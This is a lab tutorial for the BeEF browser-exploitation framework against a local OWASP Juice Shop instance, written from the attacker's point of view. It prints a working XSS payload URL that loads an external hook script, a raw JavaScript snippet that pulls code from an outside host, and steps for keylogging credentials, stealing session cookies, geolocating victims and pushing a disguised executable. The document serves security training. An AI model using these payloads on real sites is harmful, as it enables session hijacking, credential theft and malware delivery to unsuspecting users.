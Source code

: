 # BeEF Tutorial

This tutorial assumes that 
1. you followed the [installation instructions](README.md)
2. the BeEF application is up and running, and can be reached at
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel)
3.  and that Juice Shop is up and running, and can be reached at
[http://vulnerable.local:3500](http://vulnerable.local:3500).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto BeEF's administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view (1)

There are two vulnerable web sites. One has already been exploited, and another
one needs manual exploitation. Both examples can be used throughout the demo,
but the Juice Shop example is recommended, as it's more realistic.

For the victim's point of view, open a _new browser window_. The same browser
window can be used for both examples.

### Automatically exploited (simple form)

Let's now surf to a vulnerable site which contains a Cross-Site Scripting
vulnerability.
[http://vulnerable.local:3000/demos/basic.html](http://vulnerable.local:3000/demos/basic.html)

This specific vulnerable instance has already been exploited: This is an example
of a 'stored Cross-Site Scripting vulnerability', where the payload is
automatically executed. Even though you're visiting `vulnerable.local:3000`,
there's a direct hook into the BeEF framework.

### Manual exploitation (Juice Shop)

For a more realistic scenario, go to
[http://vulnerable.local:3500](http://vulnerable.local:3500) and click on the
search icon in the top right. This will open up a search box. Search for
"banana". This will return all results having "banana" in their description.

Now, an attacker discovered that the site contains a Cross-Site Scripting
vulnerability. Search for the term

```javascript
<img src=a onerror=alert(1)>
```

[<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>](<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>).

This will execute a reflected Cross-Site Scripting payload - an alert box will
pop up, showing a 1.

What's the damage, you'd think? Just an alert box, right? Well, this tutorial
will show you how you much damage you can do with 'just' a Cross-Site Scripting
exploit...

Say that the attacker crafted a link pointing to the vulnerable site, which
would execute a bit more realistic payload. It is up to the attacker to entice
victims to click on that link, for example by social engineering, using link
shorteners and messaging the link.

Click on the following link, prepared by the attacker:
[http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](<http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple>)

Nothing weird happens, right? You don't see results, but that's all. Say now
that the victim wants to log on to the site, and clicks on the account link top
right. Fill in the account details of an existing account: `admin@juice-sh.op` /
`admin123`.

The victim is logged in, and everything looks okay.

However, the payload contained a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
the moment the victim clicked on the link, the attacker controlled all of the
web content in the [http://vulnerable.local:3000](http://vulnerable.local:3000)
tab. Click in the left hand on the hooked browser in the `vulnerable.local`
domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim is doing during this
session. **All entered text as well as mouse and keyboard commands are
intercepted**. If you look carefully you can read the username, and password
that the user entered.

**The attacker successfully stole the username and password**

### Grabbing the session cookie

Select the _Commands_ tab. This is where the majority of actions will be
performed. In the Module Tree, search for _cookie_. Select _Get Cookie_. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side. This is the session cookie of the
logged in user: all that the attacker needs to take over the victim's session.

**The attacker successfully stole the session cookie**

### Fingerprint the victim

Let's fingerprint the browser, so the victim can be followed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the second entry,
`https://ip.nf/me.json` API. you now click on _Execute_, the attacker will find
out where the victim, visiting
[http://vulnerable.local:3500](http://vulnerable.local:3500), will be located.

**The attacker successfully fingerprinted and located the victim**

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Notification Bar
(Chrome)_ module. In the right hand of the screen, enter the following as URL:

```
http://beef.local:3000/demos/droppers/dropper.exe
```

This file is located on the BeEF server, and will be the payload. For
demonstration purposes, this is a Windows executable, the calculator. Note that
you can add any file in the `droppers` directory, and it can be accessed
directly using `http://beef.local:3000/demos/droppers/` and then the name of the
file.

When clicking on _Execute_, the module will send a convincingly looking update
notification. As soon as the victim clicks on the notification, a file will be
downloaded.

**The attacker successfully pushed a rogue executable to the victim**

### Fun and games

**Note:** For best results for the next demos, let the victim first click on the
**OWASP Juice Shop** logo in the top left, so that all search results are
visible. The more visual elements, the better...

Just for fun, play a sound on the victim's computer. Search for _sound_ and
execute the _Play Sound_ module.

Is the sound on? Then we can do better... Search for _raw_ and select the _Raw
JavaScript_ module. Paste the following code in the JavaScript Code window:

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://extract.pw/shake.js';
document.body.appendChild(b);
```

Click on _Execute_.

**The attacker successfully executed arbitrary JavaScript**

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
